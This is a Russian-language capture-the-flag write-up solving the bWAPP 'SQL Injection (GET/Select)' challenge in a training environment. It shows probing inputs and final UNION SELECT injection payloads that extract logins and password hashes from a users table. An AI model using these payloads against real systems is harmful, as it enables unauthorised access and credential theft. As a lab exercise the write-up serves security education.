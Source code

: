 # SQL Injection (GET/Select)
---

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.md)
- 🇬🇧 [English](WRITEUP.en.md)

# Дисклеймер
---

**Текст написан и переведён автором вручную. Для форматирования и стилистической правки использовалась языковая модель.**

**Данный материал подготовлен исключительно в образовательных и исследовательских целях.
Я не поощраю и не призываю к осуществлению неправомерного доступа к информационным системам, нарушению законодательства.
По моему мнению, одним из самых эффективных способов борьбы с киберпреступностью является осведомление как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о популярных уязвимостях, которые могут быть потенциально использованы злоумышленниками для совершения противоправных актов.**

**⚠️ Все действия, описанные в данном документе, производились в рамках разрешённой исследовательской среды (CTF/тестовая платформа), без нарушения прав третьих лиц и действующего законодательства.**

**Незаконное вмешательство в работу компьютерных систем, нарушение правил хранения и обработки компьютерной информации, а также иные формы так называемого "чёрного" хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

---

# Введение
---

Buggy Web Application (BWAPP) предлагает набор заданий, основанных на ***уязвимости внедрения SQL-кода***. (**A03:2021 - Инъекции**)

***ОХВАЧЕННЫЕ УРОВНИ БЕЗОПАСНОСТИ***
- Низкий

# Цель
---

![hehe](images/SqliGetSelectTarget.png)

# Функциональность
---

Приложение позволяет выбрать фильм из предоставленного списка:

![hehe](images/SqliGetSelectFunction.png)

### Предполагаемый SQL-запрос:

```SQL
SELECT * FROM movies WHERE id="$variable"
```

# Эксплуатация
---

Тестирование со стандартной полезной нагрузкой `1' OR 1=1 -- ` вернуло ошибку, однако `1 OR 1=1 -- ` не вызвало сбоя:

![hehe](images/SqliGetSelectTest.png)

Передача полезной нагрузки на основе `UNION`, ранее использовавшейся в ))))), не вызвала ошибок, но не позволила получить информацию из (вероятной) таблицы users:

![hehe](images/SqlietGetSelectTest2.png)

Передача полезных нагрузок на основе `UNION` с добавлениями `ORDER BY` позволила получить данные из таблицы `users` путем изменения параметра `ORDER BY`:

![hehe](images/SqliGetSelectPwd.png)

![hehe](images/SqliGetSelectUsers.png)

## Финальные полезные нагрузки

Получение записей хэшированных паролей:

```SQL

1 UNION SELECT login, password, NULL, NULL, NULL, NULL, NULL FROM users ORDER BY 2 -- 

```

Получение записей логинов:

```SQL

1 UNION SELECT password, login, NULL, NULL, NULL, NULL, NULL FROM users ORDER BY 
2 -- 

```